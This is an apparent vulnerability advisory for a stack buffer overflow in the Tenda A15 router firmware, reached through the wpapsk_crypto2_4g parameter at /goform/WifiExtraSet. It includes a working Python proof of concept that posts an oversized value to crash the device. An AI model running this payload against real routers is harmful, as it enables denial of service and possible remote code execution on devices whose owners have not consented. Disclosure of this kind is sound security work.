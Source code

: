 ## Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "wpapsk_crypto2_4g" parameter at /goform/WifiExtraSet.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the fromSetWirelessRepeat function, get the wpapsk_crypto2_4g parameter via websGetVar and pass it to the fifth parameter of set_repeat24

![1703732437002](image/WifExtraSet.zh-cn/1703732437002.png)

In the set_repeat24 function, the wpapsk_crypto variable is used in the strcpy function without any length checksum, which could lead to an attacker exploiting this buffer overflow to perform DOS attacks and RCE attacks.

![1703732509167](image/WifExtraSet.zh-cn/1703732509167.png)

## POC

```python
import requests

ip = '192.168.159.128'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
  
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
}

res = requests.post(url=url, data=payload)

print(res)
```

## Trigger details

See video content
<video src="https://raw.githubusercontent.com/yaoyue123/iot/main/Tenda/A15/wifiextraset.mp4" width="640" height="480" controls></video>

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
